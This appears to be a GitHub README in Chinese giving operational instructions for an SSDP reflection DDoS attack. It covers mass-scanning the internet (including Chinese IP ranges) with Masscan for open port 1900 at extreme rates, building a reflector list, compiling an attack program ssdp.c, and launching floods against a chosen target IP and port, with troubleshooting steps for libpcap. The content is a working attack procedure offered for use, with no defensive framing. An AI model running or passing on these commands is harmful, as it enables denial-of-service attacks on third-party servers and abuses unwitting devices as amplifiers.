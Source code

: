 # Ddos Ssdp Attack
> Use Masscan Scan Server

### 安装环境
	yum install git make screen gcc libpcap-dev

### 安装 Masscan
	git clone https://github.com/robertdavidgraham/masscan
	cd masscan
	make && make install

### 扫描 Server
	# 最高速扫描全网 SSDP 端口保存为 JSON
	screen masscan 0.0.0.0/4 -p1900 --rate 100000000 -oJ ip.json
	# 转换格式为单 IP 的 TXT
	python format.py ip.json ip.txt

> **扫描中国IP段方式**<br>
> screen masscan -iL ip/cn_ip.txt -p1900 --rate 100000000 -oJ ip.json

### 攻击 SSDP
	# 编译攻击脚本
	gcc -pthread ssdp.c -o ssdp
	# SSDP 攻击
	./ssdp <target IP> <target port> <reflection file> <time (optional)>

> 攻击或使用功能更全的 saddam.py 攻击脚本<br>

### 报错 libpcap
	# 从官网下载最新的 http://www.tcpdump.org/release/
	# 或直接用 http://www.tcpdump.org/release/libpcap-1.9.1.tar.gz
	wget -c http://www.tcpdump.org/release/libpcap-1.9.1.tar.gz
	tar zxf libpcap-1.9.1.tar.gz
	cd libpcap-1.9.1
	make && make install
	ls /usr/local/lib
	# 发现已经有了libpcap的so了
	vim /etc/ld.so.conf
	# 追加一行
	/usr/local/lib
	# 使用如下命令刷新
	ldconfig

